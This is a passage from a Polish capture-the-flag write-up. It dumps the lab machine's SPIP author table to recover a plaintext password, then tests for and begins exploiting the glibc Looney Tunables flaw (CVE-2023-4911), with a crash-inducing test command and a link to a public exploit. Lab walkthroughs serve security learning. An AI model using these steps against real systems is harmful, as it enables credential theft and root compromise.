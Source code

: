 ```bash
| Field        | Type         | Null | Key | Default             | Extra                         |
+--------------+--------------+------+-----+---------------------+-------------------------------+
| id_auteur    | bigint(21)   | NO   | PRI | NULL                | auto_increment                |
| nom          | text         | NO   |     | ''                  |                               |
| bio          | text         | NO   |     | ''                  |                               |
| email        | tinytext     | NO   |     | ''                  |                               |
| nom_site     | tinytext     | NO   |     | ''                  |                               |
| url_site     | text         | NO   |     | ''                  |                               |
| login        | varchar(255) | YES  | MUL | NULL                |                               |
| pass         | tinytext     | NO   |     | ''                  |                               |
| low_sec      | tinytext     | NO   |     | ''                  |                               |
| statut       | varchar(255) | NO   | MUL | 0                   |                               |
| webmestre    | varchar(3)   | NO   |     | non                 |                               |
| maj          | timestamp    | NO   |     | current_timestamp() | on update current_timestamp() |
| pgp          | text         | NO   |     | ''                  |                               |
| htpass       | tinytext     | NO   |     | ''                  |                               |
| en_ligne     | datetime     | NO   | MUL | 0000-00-00 00:00:00 |                               |
| alea_actuel  | tinytext     | YES  |     | NULL                |                               |
| alea_futur   | tinytext     | YES  |     | NULL                |                               |
| prefs        | text         | YES  |     | NULL                |                               |
| cookie_oubli | tinytext     | YES  |     | NULL                |                               |
| source       | varchar(10)  | NO   |     | spip                |                               |
| lang         | varchar(10)  | NO   |     |                     |                               |
| imessage     | varchar(3)   | NO   |     |                     |                               |
| backup_cles  | mediumtext   | NO   |     | ''                  |                               |
+--------------+--------------+------+-----+---------------------+-------------------------------+
23 rows in set (0.001 sec)

MariaDB [spip]> select id_auteur, pass, htpass from spip_auteurs;
select id_auteur, pass, htpass from spip_auteurs;
+-----------+--------------------------------------------------------------+--------+
| id_auteur | pass                                                         | htpass |
+-----------+--------------------------------------------------------------+--------+
|         1 | 4ng3l4                                                       |        |
|         2 | $2y$10$.GR/i2bwnVInUmzdzSi10u66AKUUWGGDBNnA7IuIeZBZVtFMqTsZ2 |        |
+-----------+--------------------------------------------------------------+--------+
2 rows in set (0.000 sec)
```
Wszystko co powyżej widać, jest tak intuicyjne, że nawet nie musiałem szukać informacji w necie. Nawet patrząc na **id_auteur**, zgadłem, że jest to użytkownik. Mamy hasło użytkownika **angela**.
{: .text-justify}
# 05. Looney Tunables CVE-2023-4911
Ostatnio było głośno o podatności **CVE-2023-4911**, którą wykorzystamy. Ale najpierw sprawdźmy, czy jest na to podatność. 
{: .text-justify}
```bash
angela@pipy:~$ env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "G=`printf '%08192x' 1`" /usr/bin/su --help
Segmentation fault (core dumped)
```
Jest **Segmentation fault (core dumped)**, więc możemy spróbować eksploita, który jest [tutaj]( https://github.com/leesh3288/CVE-2023-4911#poc-of-cve-2023-4911-looney-tunables).
{: .text-justify}
```bash
angela@pipy:/tmp$ unzip main.zip 
Archive:  main.zip
acf0d3a8bd4c437475a7c4c83f5790e53e8103cb
   creating: CVE-2023-4911-main/
  inflating: CVE-2023-4911-main/Makefile  
  inflating: CVE-2023-4911-main/README.md  
  inflating: CVE-2023-4911-main/exp.c  
  inflating: CVE-2023-4911-main/gen_libc.py  
```